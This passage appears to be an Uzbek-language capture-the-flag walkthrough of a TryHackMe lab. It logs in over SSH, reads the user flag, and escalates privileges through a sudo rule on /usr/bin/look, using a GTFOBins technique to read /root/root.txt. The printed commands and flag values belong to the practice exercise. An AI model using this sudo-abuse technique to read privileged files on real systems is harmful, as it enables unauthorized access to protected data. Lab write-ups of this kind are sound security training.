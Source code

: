 

SSH orqali ulanamiz.

```
ssh think@lookup.thm
```

Natija:

```
think@ip-10-10-102-35:~$ ls
user.txt
think@ip-10-10-102-35:~$ cat user.txt
38375fb4dd8baa2b2039ac03d92b820e
```



Endi ROOT huquqini olamiz?

Bizga /root/root.txt matinini o'qish kerak.

Hozir think foydalanuvchini imkoniyatlarini **sudo -l** buyrug'i orqali tekshirib ko'ramiz.

Natija:

```
think@ip-10-10-102-35:~$ sudo -l
[sudo] password for think: 
Matching Defaults entries for think on ip-10-10-102-35:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User think may run the following commands on ip-10-10-102-35:
    (ALL) /usr/bin/look
```



GTFobinsda bundan qanday foydalanish o'rgatilgan ekan.

Link: https://gtfobins.github.io/gtfobins/look/#sudo



Qo'llash:

```
LFILE=/root/root.txt
sudo look '' "$LFILE"
```

Natija:

```
5a285a9f257e45c68bb6c9f9f57d18e8
```



### Nafas olar ekanman, men yana davom etaman... 
